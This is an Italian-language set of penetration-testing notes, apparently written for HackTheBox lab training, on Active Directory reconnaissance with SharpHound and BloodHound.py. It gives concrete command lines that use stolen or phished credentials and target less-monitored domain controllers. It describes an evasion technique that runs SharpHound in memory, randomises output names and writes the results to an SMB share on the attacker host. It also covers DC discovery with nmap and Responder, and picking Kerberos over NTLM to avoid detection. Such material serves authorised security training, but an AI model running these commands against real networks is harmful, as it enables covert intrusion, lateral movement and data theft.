- [SharpHound - Data Collection da Windows](#sharphound---data-collection-da-windows)
  - [Metodi di Collection](#metodi-di-collection)
    - [Cosa usare?](#cosa-usare)
    - [Riassunto Metodi di Collection](#riassunto-metodi-di-collection)
  - [Flag comuni di SharpHound](#flag-comuni-di-sharphound)
    - [--ldapusername / --ldappassword](#--ldapusername----ldappassword)
    - [-d / --domain](#-d----domain)
    - [--domaincontroller](#--domaincontroller)
    - [--ldapport](#--ldapport)
    - [Combinazione pratica in uno scenario reale](#combinazione-pratica-in-uno-scenario-reale)
  - [Randomizzare e nascondere l'output di SharpHound](#randomizzare-e-nascondere-loutput-di-sharphound)
    - [Le opzioni di evasione](#le-opzioni-di-evasione)
    - [Una possibile tecnica di evasione](#una-possibile-tecnica-di-evasione)
      - [Step 1 – Prepari uno share SMB sul tuo attacker host](#step-1--prepari-uno-share-smb-sul-tuo-attacker-host)
      - [Step 2 – Monti lo share dalla macchina vittima](#step-2--monti-lo-share-dalla-macchina-vittima)
      - [Step 3 – Esegui SharpHound con tutto offuscato](#step-3--esegui-sharphound-con-tutto-offuscato)
      - [Risultato sul disco della vittima:](#risultato-sul-disco-della-vittima)
      - [Risultato sul tuo attacker host:](#risultato-sul-tuo-attacker-host)
      - [Analisi dell'output randomizzato](#analisi-delloutput-randomizzato)
      - [Cosa si evade con questa tecnica](#cosa-si-evade-con-questa-tecnica)
  - [Session Loop Collection Method](#session-loop-collection-method)
    - [Il problema: le sessioni sono effimere](#il-problema-le-sessioni-sono-effimere)
    - [Perché le sessioni sono importanti?](#perché-le-sessioni-sono-importanti)
    - [La soluzione: --loop](#la-soluzione---loop)
      - [Esempio](#esempio)
    - [--stealth: ridurre il rumore](#--stealth-ridurre-il-rumore)
    - [Possibile Combinazione in uno scenario reale](#possibile-combinazione-in-uno-scenario-reale)
  - [Running SharpHound da sistemi non joinati al dominio](#running-sharphound-da-sistemi-non-joinati-al-dominio)
    - [La soluzione: runas /netonly](#la-soluzione-runas-netonly)
      - [Il prerequisito: la risoluzione DNS](#il-prerequisito-la-risoluzione-dns)
        - [Opzione 1 – Configurare il DNS (preferita)](#opzione-1--configurare-il-dns-preferita)
        - [Opzione 2 – File hosts (fallback)](#opzione-2--file-hosts-fallback)
        - [Il flusso completo passo per passo](#il-flusso-completo-passo-per-passo)
          - [Perché verificare con net view?](#perché-verificare-con-net-view)
      - [Per trovare il DC](#per-trovare-il-dc)
        - [Se hai già una shell su una macchina del dominio](#se-hai-già-una-shell-su-una-macchina-del-dominio)
        - [Se sei completamente esterno (solo accesso di rete)](#se-sei-completamente-esterno-solo-accesso-di-rete)
- [BloodHound.py - Data Collection da Linux](#bloodhoundpy---data-collection-da-linux)
  - [Installazione](#installazione)
  - [Autenticazione supportata](#autenticazione-supportata)
  - [Il problema del DNS (uguale a prima!)](#il-problema-del-dns-uguale-a-prima)
    - [Kerberos vs NTLM – la differenza pratica](#kerberos-vs-ntlm--la-differenza-pratica)
      - [Requisito extra per Kerberos: sincronizzazione orario](#requisito-extra-per-kerberos-sincronizzazione-orario)
    - [Output di BloodHound.py](#output-di-bloodhoundpy)

# SharpHound - Data Collection da Windows
Se non si usano opzioni, SharpHound, di default, identifica il dominio in cui l'utente appartiene ed esegue il "default collection".
- Collection method usati di default: Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote:
    - Users and Computers.
    - Active Directory security group membership.
    - Domain trusts.
    - Abusable permissions on AD objects.
    - OU tree structure.
    - Group Policy links.
    - The most relevant AD object properties.
    - Local groups from domain-joined Windows systems and local - privileges such as RDP, DCOM, and PSRemote.
    - User sessions.
    - All SPN (Service Principal Names).


SharpHound (il collector di BloodHound) lavora in due fasi:
- Fase 1 – Raccolta da Active Directory (AD): Interroga il Domain Controller per ottenere la lista di tutti i computer del dominio. Questo è possibile per qualsiasi utente autenticato nel dominio, senza privilegi speciali.
- Fase 2 – Connessione diretta ai singoli computer: Per ogni macchina trovata, SharpHound cerca di connettersi direttamente per raccogliere informazioni più dettagliate. Ed è qui che entrano in gioco i privilegi.

Cosa raccoglie dalla singola macchina?

**Membri dei gruppi locali**

Interroga i gruppi locali di ogni computer:
- Local Administrators → chi può fare da admin sulla macchina
- Remote Desktop Users → chi può fare RDP
- Distributed COM Users → chi può usare DCOM
- Remote Management Users → chi può usare WinRM/PowerShell remoto

> Questi dati sono fondamentali per BloodHound perché mostrano i path di movimento laterale (es: "l'utente X è local admin su 15 macchine").

**Sessioni attive**

Chi è loggato interattivamente in quel momento su quella macchina. Questo permette a BloodHound di costruire relazioni del tipo:

>"L'utente Domain Admin è loggato sulla macchina WORKSTATION-42" → potenziale target per credential dumping.


> Senza privilegi di Local Administrator sulla macchina target, le chiamate API remote (come NetLocalGroupGetMembers e NetSessionEnum) vengono rifiutate o ritornano dati vuoti.


Una volta eseguito, ShapHound crea dei file zip che possono essere messi su BloodHound.


## Metodi di Collection

- **All**: Fa tutto, tranne GPOLocalGroup. Massima raccolta, massimo rumore. Da usare solo in ambienti dove non c'è monitoring o in lab.
- **DCOnly**: Parla solo con il Domain Controller:

Raccoglie: utenti, computer, gruppi, trust, ACL, OU, GPO. Tenta anche di correlare le GPO ai computer che ne sono affetti, per inferire i local group senza connettersi alle macchine.
- **ComputerOnly**: L'opposto: parla solo con le singole macchine, non interroga l'AD. Raccoglie: sessioni attive + membri dei gruppi locali.

### Cosa usare?
Se si considera un ambiente:


Alcune strategie per non farsi sgamare:


### Riassunto Metodi di Collection


> Il traffico verso il Domain Controller è fisiologico in un dominio Windows — centinaia di macchine lo contattano continuamente. Il traffico da una singola macchina verso tutte le altre è invece anomalo e facilmente rilevabile.

## Flag comuni di SharpHound

### --ldapusername / --ldappassword

Servono quando hai credenziali diverse dall'utente con cui sei loggato.

Scenari tipici:

- Hai fatto phishing e ottenuto credenziali di un utente di dominio, ma sei su una macchina non joinata al dominio, o loggato come un altro utente
    ```
    SharpHound.exe --ldapusername mario.rossi --ldappassword Password123!
    ```

- Hai dumpato credenziali con Mimikatz e vuoi usare un account più privilegiato
    ```
    SharpHound.exe --ldapusername svc-backup --ldappassword Backup2024!
    ```

> Utile anche in combinazione con runas o quando esegui SharpHound da un contesto di processo diverso dall'utente che vuoi usare per l'enumerazione.

### -d / --domain

In ambienti multi-dominio SharpHound potrebbe non capire quale dominio enumerare, oppure potresti voler enumerare un dominio specifico.

Scenario:

Ambiente con più domini:
- company.local (principale)
- emea.company.local (subsidiaria Europa)
- legacy.corp (dominio vecchio, magari meno monitorato)

```
SharpHound.exe -d legacy.corp
```

> Di default SharpHound prende il dominio del contesto corrente, quindi in ambienti semplici non serve specificarlo.

### --domaincontroller
Permette di puntare a un DC specifico invece di lasciare che SharpHound lo scelga automaticamente.

**Caso 1 – DC secondario meno monitorato**
- Il DC primario (DC01) ha EDR e logging avanzato
- Il DC secondario (DC02) è più vecchio e meno presidiato

```
SharpHound.exe --domaincontroller DC02.company.local

oppure

SharpHound.exe --domaincontroller 192.168.1.50
```

**Caso 2 – Port forwarding**
- Sei dentro una rete e hai impostato un tunnel/port forward
- Il DC è raggiungibile solo tramite localhost:3389 rediretto

```
SharpHound.exe --domaincontroller 127.0.0.1 --ldapport 3890
```

### --ldapport
Di default LDAP usa la porta 389 (o 636 per LDAPS). Con questo flag puoi cambiare porta:
Scenari d'uso:
- Port forwarding con porta non standard
- LDAP su porta custom
- Tunnel SSH con port mapping

```
SharpHound.exe --domaincontroller 127.0.0.1 --ldapport 3389
```

### Combinazione pratica in uno scenario reale
Scenario:
- Hai credenziali di un service account trovate in un config file
- Sei in un ambiente con domini multipli
- Vuoi colpire il dominio legacy meno monitorato
- Hai un tunnel verso quel DC su porta non standard

```
SharpHound.exe \
  --ldapusername svc-deploy \
  --ldappassword D3pl0y2023! \
  --domain legacy.corp \
  --domaincontroller 127.0.0.1 \
  --ldapport 3890 \
  --collectionmethod DCOnly    # silenzioso, solo traffico verso DC
  ```

## Randomizzare e nascondere l'output di SharpHound
Il comportamento default di SharpHound è riconoscibile dai difensori:


> Un SOC o un AV può creare regole di detection basate su questi pattern di file.

### Le opzioni di evasione


### Una possibile tecnica di evasione
**Non scrivere mai nulla sul disco della macchina vittima.**

#### Step 1 – Prepari uno share SMB sul tuo attacker host
```
sudo impacket-smbserver share ./ -smb2support -user test -password test
```
Il tuo Kali/PwnBox diventa un file server SMB.

#### Step 2 – Monti lo share dalla macchina vittima
```
net use \\10.10.14.33\share /user:test test
```

#### Step 3 – Esegui SharpHound con tutto offuscato
```
SharpHound.exe \
  --memcache \
  --outputdirectory \\10.10.14.33\share\ \
  --zippassword HackTheBox \
  --outputprefix HTB \
  --randomfilenames
```

#### Risultato sul disco della vittima:
> (niente)  ← nessun file scritto localmente

#### Risultato sul tuo attacker host:
> HTB_20230111113143_5yssigbd.w3f   ← nome e estensione casuali


#### Analisi dell'output randomizzato
```
unzip ./HTB_20230111113143_5yssigbd.w3f
# password: HackTheBox

# Dentro trovi:
HTB_20230111113143_hjclkslu.2in
HTB_20230111113143_hk3lxtz3.1ku
HTB_20230111113143_kghttiwp.jbq
...
```

Tutti i file hanno:
- Prefisso HTB_ + timestamp (da --outputprefix)
- Nome casuale (da --randomfilenames)
- Estensione casuale → non sono più .json riconoscibili

BloodHound è comunque in grado di importarli correttamente, riconosce il contenuto indipendentemente dal nome o estensione.

#### Cosa si evade con questa tecnica


>Lo zip protetto da password va prima decompresso e poi importato in BloodHound. Senza password invece puoi importare il file direttamente, anche con nome e estensione casuali.


## Session Loop Collection Method
### Il problema: le sessioni sono effimere
**Una sessione esiste solo mentre l'utente è connesso. Appena si disconnette, sparisce in pochi minuti.**



Quindi se SharpHound fa una sola raccolta e in quel momento non c'è nessuno connesso:
```
net session
> There are no entries in the list.
```
→ BloodHound non avrà nessun dato sulle sessioni, perdendo informazioni preziose su dove sono loggati gli utenti privilegiati.

### Perché le sessioni sono importanti?
In un attacco AD, sapere **dove è loggato un utente privilegiato** è fondamentale:



Senza dati di sessione, questo path di attacco è invisibile nel grafo.

### La soluzione: --loop
Invece di fare una sola raccolta, SharpHound continua a interrogare i computer a intervalli regolari, catturando le sessioni man mano che appaiono.



#### Esempio
```
SharpHound.exe -c Session --loop --loopduration 01:00:00 --loopinterval 00:01:00
```

- Raccoglie solo sessioni (-c Session)
- Va in loop per 1 ora (--loopduration 01:00:00)
- Interroga ogni computer ogni 1 minuto (--loopinterval 00:01:00)

Timeline di esecuzione
```
14:15  →  Raccolta iniziale (0 sessioni trovate)
14:16  →  Aspetta 30 secondi (warm-up fisso)
14:16  →  Loop 1 inizia
14:17  →  Loop 2
14:18  →  Loop 3
...
15:16  →  Stop (dopo 1 ora)
```

### --stealth: ridurre il rumore
Interrogare tutti i computer ogni minuto per un'ora genera molto traffico. Il flag `--stealth` ottimizza questo:



Utile in ambienti monitorati dove vuoi comunque raccogliere sessioni ma con meno rumore.


### Possibile Combinazione in uno scenario reale

```
# Prima raccolta silenziosa di tutto il dominio
SharpHound.exe --collectionmethod DCOnly --memcache --randomfilenames

# Poi loop di sessioni su macchine selezionate, stealth
SharpHound.exe -c Session \
  --loop \
  --loopduration 02:00:00 \
  --loopinterval 00:05:00 \
  --stealth \
  --memcache \
  --outputdirectory \\10.10.14.33\share\
```

`--stealth` non richiede un file di computer da noi — è SharpHound stesso che decide autonomamente quali macchine interrogare, scegliendo quelle statisticamente più probabili ad avere sessioni attive (es: file server, print server, macchine con molte connessioni).

Se invece vogliamo noi scegliere le macchine target, dobbiamo usare `--computerfile`:
```
SharpHound.exe -c Session \
  --loop \
  --loopduration 02:00:00 \
  --loopinterval 00:05:00 \
  --computerfile targets.txt \
  --memcache \
  --outputdirectory \\10.10.14.33\share\
```



> Microsoft ha introdotto il requisito di essere **Local Administrator** per raccogliere dati di sessione. Quindi `--loop` è efficace solo sui computer dove hai già privilegi amministrativi.

## Running SharpHound da sistemi non joinati al dominio
Normalmente SharpHound gira su una macchina già membro del dominio, quindi eredita automaticamente il contesto di autenticazione AD. Ma in alcuni scenari non hai questo lusso:

- Sei su un attacker host (Kali, PwnBox) con solo accesso di rete
- Hai compromesso una macchina workgroup (non joinata al dominio)
- Stai facendo un pentest con accesso di rete ma nessuna macchina nel dominio

### La soluzione: runas /netonly




```
runas /netonly /user:INLANEFREIGHT\htb-student cmd.exe
```

Cosa fa `/netonly`?



Quindi tutto il traffico di rete (LDAP, SMB, ecc.) viene autenticato come htb-student nel dominio, anche se la macchina non è jointa.

> ⚠️ **Attenzione**: `runas /netonly` non valida le credenziali al momento dell'esecuzione. Se sbagli la password, te ne accorgi solo quando provi a fare qualcosa in rete.

#### Il prerequisito: la risoluzione DNS
Prima di tutto la macchina deve risolvere i **nomi del dominio AD**. Senza questo, SharpHound non riesce a trovare i DC o le macchine del dominio.

##### Opzione 1 – Configurare il DNS (preferita)
Puntare la scheda di rete al DNS server del dominio (solitamente il DC):

DNS Server: 172.16.130.3  (IP del Domain Controller)



##### Opzione 2 – File hosts (fallback)
Aggiungere manualmente i record al file C:\Windows\System32\drivers\etc\hosts:
```
172.16.130.3    inlanefreight.htb
172.16.130.3    dc01.inlanefreight.htb
```

> Meno affidabile perché risolve solo i nomi che inserisci manualmente, possono esserci errori su nomi non presenti.

##### Il flusso completo passo per passo
```
1. Configuri il DNS → punta al DC del dominio target

2. Apri cmd normale e lanci:
   runas /netonly /user:INLANEFREIGHT\htb-student cmd.exe
   (inserisci la password)

3. Si apre una NUOVA finestra cmd con contesto di rete del dominio

4. Verifichi che funzioni:
   net view \\inlanefreight.htb\
   → deve mostrarti le share (NETLOGON, SYSVOL)
   → se fallisce: credenziali sbagliate o DNS non configurato

5. Da quella finestra lanci SharpHound:
   SharpHound.exe -d inlanefreight.htb
```

###### Perché verificare con net view?
```
net view \\inlanefreight.htb\

Shared resources at \\inlanefreight.htb\
NETLOGON    Disk    Logon server share
SYSVOL      Disk    Logon server share
```

Vedere NETLOGON e SYSVOL conferma tre cose:
- Il DNS risolve correttamente il dominio
- Le credenziali sono valide
- Hai accesso di rete al DC


#### Per trovare il DC

Prima capisci dove sei
```
ipconfig /all
```
Cerca:
- DNS Servers → spesso è direttamente il DC, se è joinata
- Domain → ti dice il nome del dominio, se è joinata


##### Se hai già una shell su una macchina del dominio
```
# Metodo più diretto
echo %LOGONSERVER%

# Oppure
nltest /dclist:<dominio>

# Oppure
nslookup -type=SRV _ldap._tcp.dc._msdcs.<dominio>
```

##### Se sei completamente esterno (solo accesso di rete)
**Nmap – cerchi porte tipiche dei DC
**
```
# I DC espongono sempre queste porte:
# 88  → Kerberos
# 389 → LDAP
# 445 → SMB
# 3268 → Global Catalog

nmap -p 88,389,445,3268 192.168.1.0/24
# Chi ha tutte e quattro aperte è quasi certamente un DC
```

**Responder / network sniffing**

```
# Ascolti il traffico broadcast della rete
# I client AD generano continuamente traffico verso il DC
sudo responder -I eth0 -A   # modalità passiva, solo ascolto
```
**DNS query (se riesci a raggiungere un DNS della rete)**

```
# I DC registrano record SRV speciali in DNS
nslookup -type=SRV _ldap._tcp.dc._msdcs.inlanefreight.htb <ip_dns_server>
```

# BloodHound.py - Data Collection da Linux
SharpHound è un eseguibile Windows. Quando sei su **Linux** (il tuo Kali/PwnBox) e vuoi raccogliere dati AD, usi **BloodHound.py**, che fa la stessa cosa ma gira nativamente su Linux.

## Installazione
```
$ pip install bloodhound
```
Quanto è facile!

Si può installare anche dal repository Github
```
$ git clone https://github.com/fox-it/BloodHound.py -q
$ cd BloodHound.py/
$ sudo python3 setup.py install
```

## Autenticazione supportata
BloodHound.py è flessibile sul metodo di autenticazione:



> Di default tenta Kerberos prima, e se fallisce fa fallback a NTLM automaticamente.

## Il problema del DNS (uguale a prima!)
Ritorna lo stesso concetto visto con SharpHound su macchine non joinata: **devi risolvere i nomi del dominio.**

BloodHound.py risolve questo con `--nameserver`:
```
bloodhound-python -d inlanefreight.htb \
  -c DCOnly \
  -u htb-student \
  -p HTBRocks! \
  -ns 10.129.204.207    # ← usa questo DNS invece del tuo
```

Però `--nameserver` ha un limite importante con Kerberos.


### Kerberos vs NTLM – la differenza pratica
Con `--nameserver` (NTLM fallback)
```
bloodhound-python ... -ns 10.129.204.207 -k

WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication.
# BloodHound.py usa --nameserver per le query LDAP
# ma il TUO sistema operativo non sa risolvere inlanefreight.htb
# → Kerberos fallisce perché non trova il KDC
# → cade su NTLM (funziona lo stesso, ma è più rumoroso)
```


Con `/etc/hosts` configurato (Kerberos funziona)
```
# Prima aggiungi il DC agli hosts
echo "10.129.204.207 dc01.inlanefreight.htb dc01 inlanefreight inlanefreight.htb" | sudo tee -a /etc/hosts

# Poi lanci con Kerberos
bloodhound-python ... -ns 10.129.204.207 --kerberos
# ✅ Il sistema risolve dc01.inlanefreight.htb → trova il KDC → Kerberos funziona
```

Quindi senza configurazioni DNS, funziona comunque ma cade su NTLM. Solo che è più rumoroso!

Perché NTLM è più rumoroso?
- È anomalo nel 2024: Le organizzazioni moderne disabilitano o limitano NTLM proprio perché è vecchio e vulnerabile (Pass-the-Hash, relay attacks). Un SOC che vede traffico NTLM da un host insolito si insospettisce.
- Passa per il DC in modo diverso: NTLM richiede che il server contatti il DC per validare ogni autenticazione (evento 4776 nei log di Windows), generando log facilmente rilevabili.
- È associato ad attacchi noti: Tool come Responder, ntlmrelayx, e altri abusano NTLM. I blue team hanno spesso alert specifici su traffico NTLM anomalo.

> Kerberos è il metodo di autenticazione nativo di Windows AD. Usarlo fa sembrare il tuo traffico normale, come quello di qualsiasi macchina del dominio. NTLM è più vecchio e alcune organizzazioni lo monitorano o addirittura lo bloccano.






#### Requisito extra per Kerberos: sincronizzazione orario

Kerberos è sensibile alla differenza di orario tra client e KDC (tollera max 5 minuti):
```
bashsudo ntpdate 10.129.204.207
```

Se l'orario è sfasato, il TGT viene rifiutato anche con DNS configurato correttamente.

### Output di BloodHound.py
A differenza di SharpHound, non crea uno zip automaticamente:
```
# Output default → file JSON separati
20230112171634_computers.json
20230112171634_containers.json
20230112171634_domains.json
20230112171634_gpos.json
20230112171634_groups.json
20230112171634_ous.json
20230112171634_users.json

# Se vuoi lo zip:
bloodhound-python ... --zip
```

